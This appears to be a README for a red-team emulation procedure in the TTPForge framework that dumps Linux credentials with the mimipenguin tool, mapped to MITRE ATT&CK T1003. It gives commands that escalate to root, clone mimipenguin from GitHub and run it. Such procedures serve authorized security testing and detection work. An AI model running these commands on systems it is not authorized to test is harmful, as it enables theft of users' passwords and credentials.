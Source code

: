 # Extract Credentials with Mimipenguin

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the extraction of credentials from a target system using the mimipenguin tool.

## Pre-requisites

1. The executor must have access to the target system and be able to run commands as root.
1. The mimipenguin tool must be accessible via a remote repository.

## Examples

You can run the TTP using the following example:
```bash
ttpforge run forgearmory//credential-access/extract-credentials-with-mimipenguin/extract-credentials-with-mimipenguin.yaml
```

## Steps

1. **clone-mimipenguin**: This step clones the mimipenguin repository from GitHub. This will checkout commit 880a42714600b725eb185927775d67638bfc5b41. A cleanup step is also provided to remove the repository post-execution.
2. **run-mimipenguin**: This step runs the mimipenguin.sh script within the cloned repository. If the execution status is successful (0), the TTP exits with a success message. Otherwise, it exits with an error message.

## Manual Reproduction Steps

```
# Escalate privileges to root
sudo su

# Install mimipenguin
git clone https://github.com/huntergregal/mimipenguin.git

# Run mimipenguin
sudo bash mimipenguin.sh
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0006 Credential Access
- **Techniques**:
  - T1003 OS Credential Dumping
